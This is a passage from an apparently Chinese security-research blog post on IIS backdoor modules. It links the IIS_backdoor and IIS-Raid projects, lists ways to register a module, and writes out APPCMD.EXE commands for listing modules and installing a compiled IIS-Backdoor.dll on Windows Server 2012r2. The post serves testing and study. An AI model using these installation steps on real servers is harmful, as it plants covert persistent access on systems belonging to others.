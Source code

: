 具体的实现代码可以参考IIS_backdoor，地址如下：

https://github.com/WBGlIl/IIS_backdoor

代码细节可参考：

https://mp.weixin.qq.com/s/z1d3yvp14GWakyonTh_b8A

### 2.模块注册

可选择以下三种方法：

1. 使用APPCMD.EXE命令行工具
2. 使用IIS Administration Tool进行界面操作
3. 修改配置文件web.config

具体的使用方法还可以参考以下资料：

https://docs.microsoft.com/en-gb/iis/develop/runtime-extensibility/developing-iis-modules-and-handlers-with-the-net-framework

https://docs.microsoft.com/en-us/previous-versions/aspnet/ms227673(v=vs.100)

## 0x05 IIS-Raid测试
---

测试系统：

Windows Server 2012r2 x64(需要获得管理员权限)

IIS-Raid地址如下：

https://github.com/0x09AL/IIS-Raid

使用Visual Studio编译生成IIS-Backdoor.dll

### 1.后门安装

可以选择以下两种方法：

#### (1)使用APPCMD.EXE命令行工具

查看已安装模块的命令如下：

```
C:\Windows\system32\inetsrv\APPCMD.EXE list module
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-2-1/2-1.png)

安装模块的命令如下：

```
C:\Windows\system32\inetsrv\APPCMD.EXE install module /name:test /image:"c:\test\IIS-Backdoor.dll" /add:true
```
